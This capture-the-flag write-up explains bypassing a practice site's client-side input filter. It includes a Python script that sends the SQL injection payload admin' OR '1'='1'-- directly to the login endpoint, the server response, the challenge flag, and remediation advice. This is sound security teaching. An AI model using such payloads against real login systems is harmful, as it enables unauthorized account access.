 # Web Login Bypass Challenge - Writeup

## Challenge Overview
- **Target URL**: https://sanitize.challenges.virginiacyberrange.net/login
- **Challenge Type**: Web Application Security / SQL Injection
- **Flag**: `flag{s4n4t1z3_y0ur_d4t4_1npu75}`

## Vulnerability Analysis

### Client-Side Sanitization
The login form includes JavaScript that sanitizes the username input:
```javascript
$('#login-form').submit(function() {
    var txt = $("#uname").val();
    txt = txt.replace(/[^a-zA-Z 0-9]+/g, '')
    $("#uname").val(txt);
    return true;
});
```

This regex pattern `/[^a-zA-Z 0-9]+/g` removes all special characters except:
- Letters (a-z, A-Z)
- Numbers (0-9)
- Spaces

### The Security Flaw
The critical vulnerability is that **client-side sanitization can always be bypassed** by making direct HTTP requests to the server, completely avoiding the JavaScript validation.

## Exploitation Method

### Step 1: Direct HTTP Request
Instead of submitting through the browser form, we sent a direct POST request to `/login` endpoint using Python:

```python
import requests

url = "https://sanitize.challenges.virginiacyberrange.net/login"
data = {
    'username': "admin' OR '1'='1'--",
    'password': "password"
}

response = requests.post(url, data=data)
```

### Step 2: SQL Injection Payload
The payload `admin' OR '1'='1'--` works because:
- `admin'` - Closes the username string in the SQL query
- `OR '1'='1'` - Creates a condition that's always true
- `--` - Comments out the rest of the SQL query (including password check)

### Step 3: Server Response
The server returned a success message with the flag:
```html
<div class="alert alert-success alert-dismissible fade show" role="alert">
    Logged in successfully! flag{s4n4t1z3_y0ur_d4t4_1npu75}
</div>
```

## Key Lessons

1. **Never rely solely on client-side validation** for security
2. **Always implement server-side input validation** and sanitization
3. **Use parameterized queries** to prevent SQL injection
4. **Client-side controls are for user experience**, not security

## Remediation
To fix this vulnerability:
- Implement proper server-side input validation
- Use parameterized SQL queries or prepared statements
- Add proper authentication mechanisms
- Implement rate limiting and account lockout policies

---
**Flag**: `flag{s4n4t1z3_y0ur_d4t4_1npu75}`

